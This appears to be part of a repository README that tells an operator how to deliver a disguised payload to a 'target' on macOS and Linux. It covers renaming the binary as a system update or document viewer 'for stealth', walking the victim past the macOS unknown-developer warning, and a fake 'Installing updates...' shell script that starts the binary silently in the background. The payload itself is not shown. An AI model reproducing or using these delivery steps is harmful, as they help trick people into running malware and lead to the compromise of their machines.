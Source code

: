 **⚠️ Important**: Always compress before sending!

**How to Deploy:**

1. Compress first (required):

   ```bash
   zip -r SystemUpdate.zip SystemUpdate.app
   ```

2. Optional rename:

   ```bash
   mv SystemUpdate.app DocumentViewer.app
   zip -r DocumentViewer.zip DocumentViewer.app
   ```

3. Send `SystemUpdate.zip` to target

4. Target action:
   - Extract .zip file
   - Double-click .app
   - May see "unknown developer" warning
   - Right-click → Open to bypass
   - Silent execution!

**File Size**: ~10-20 MB (folder), ~5-8 MB (zipped)

---

### Linux Binary

**File**: `system-update`

**How to Deploy:**

1. Rename for stealth:

   ```bash
   cp system-update apt-update
   # or
   cp system-update network-tool
   ```

2. Create installer script:

   ```bash
   echo '#!/bin/bash' > install.sh
   echo 'echo "Installing updates..."' >> install.sh
   echo './system-update &' >> install.sh
   echo 'echo "Complete!"' >> install.sh
   chmod +x install.sh
   ```

3. Send both files or just binary

4. Target action:
   - Make executable: `chmod +x system-update`
   - Run: `./system-update` (or `./install.sh`)
   - Runs in background
